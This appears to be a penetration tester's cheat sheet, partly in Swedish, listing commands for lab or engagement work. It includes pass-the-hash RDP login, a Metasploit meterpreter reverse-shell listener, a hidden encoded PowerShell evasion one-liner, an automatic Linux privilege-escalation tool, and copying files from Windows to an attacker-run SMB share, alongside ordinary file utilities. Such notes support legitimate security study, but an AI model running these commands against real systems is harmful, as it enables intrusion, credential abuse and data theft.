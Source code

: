 ### Linux RDP:
``` bash
rdesktop -u <username> 192.168.224.196

xfreerdp /u:username /v:192.168.224.196 /cert:ignore /d:domain.com /pth:hash
```
### Windows Host-file:
``` powershell
C:\Windows\System32\drivers\etc
```
### Metasploit Listener:
``` bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.X.X;set LPORT XXX;run;"
```
### Powershell Evasion Command:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
### Unzippa gz:
``` bash
sudo gzip -d 
```
### Traitor Auto Linux Privesc:
```
traitor -a -p <userpass>
```
### Head:
``` bash
head -n 1000 input.txt > output.txt
```
### Radera list-entries som börjar med X:
``` bash
sed -i '/^test/d' lista.txt
```
### File Transfer from Windows with SMB
``` bash
1. Starta SMB på Linux:
sudo impacket-smbserver <mappnamn> . -smb2support

2. Kopiera över filen från Windows:
copy <filepath> \\<linux-ip>\<mappnamn>

3. Döda sessionen på Linux:
sudo kill -9 $(ps -A | grep python | awk '{print $1}')
```
### File transfer from Windows with SCP:
``` powershell
scp <file> crabfeather@192.168.45.X:<remotepath>
```
### SSH-key Permissions:
``` bash
chmod 600 <key>
```
### Windows Runas:
``` powershell
runas /user:<username> <program>
```
- Add "/netonly" for only using that users credentials for net activities